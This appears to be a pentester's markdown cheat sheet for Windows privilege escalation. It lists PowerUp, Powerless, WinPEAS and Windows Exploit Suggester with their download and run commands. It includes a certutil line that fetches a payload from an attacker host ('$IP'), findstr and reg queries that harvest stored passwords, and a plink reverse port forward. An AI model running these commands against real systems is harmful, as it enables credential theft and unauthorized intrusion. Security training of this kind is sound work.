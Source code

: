 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`

- Search for passwords 

  - In Files

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
    
  - In Registry
  
    ```
    # VNC
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    # Windows autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    # SNMP Paramters
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    # Putty
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

    # Search for password in registry
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    ```
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
  
    ```
      # Port forward using plink
      plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
    ```
    
    [plink.exe binaries](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
